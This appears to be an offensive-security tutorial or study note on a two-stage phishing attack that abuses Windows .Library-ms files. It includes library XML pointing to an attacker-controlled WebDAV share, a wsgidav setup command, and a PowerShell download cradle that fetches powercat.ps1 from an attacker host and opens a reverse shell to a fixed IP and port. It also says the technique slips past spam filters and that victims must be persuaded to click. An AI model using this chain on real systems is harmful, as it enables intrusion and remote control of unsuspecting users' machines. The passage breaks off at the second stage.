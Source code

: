 # Obtaining Code Execution via Windows Library Files


Windows library files are virtual containers for user content.

They connect users with data stored in remote locations like web services or shares.

These files have a `.Library-ms` file extension and can be executed by double-clicking them in Windows Explorer.




## Two-stage client-side attack

1.
In the first stage, we'll use Windows library files to gain a foothold on the target system and set up the second stage.

First, we'll create a Windows library file connecting to a WebDAV share we'll set up. 

The victim receives a `.Library-ms` file, perhaps via email. When they double-click the file, it will appear as a regular directory in Windows Explorer.

In the WebDAV directory, we'll provide a payload in the form of a `.lnk` shortcut file for the second stage to execute a PowerShell reverse shell. We must convince the user to double-click our `.lnk` payload file to execute it.

The difference between serving the file like this vs. via an Apache web server is that is bypass the filters. Spam filters and security technologies will pass Windows library files directly to the user. When they double-click the file, Windows Explorer displays the contents of the remote location as if it were a local directory.


Create `config.Library-ms`:

Library files consist of three parts:
- General library information
- Library properties
- Library locations

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://[WEBDAV SHARE URL]</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Create the shortcut file:
The goal is to start a reverse shell by putting the `.lnk` shortcut file on the WebDAV share for the victim to execute.


Right-click on the desktop and click on `New` > `Shortcut`. In the Create Shortcut window, we can enter a path to a program along with arguments, which will be pointed to by the shortcut. Point the shortcut to PowerShell and use another download cradle to load PowerCat from the Kali machine and start a reverse shell.

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://[ATTACKER MACHINE]:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```








```
mkdir /home/[USERNAME]/webdav

/home/[USERNAME]/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/[USERNAME]/webdav/
```


2.
In the second stage, we'll use the foothold to provide an executable file that will start a reverse shell when double-clicked.

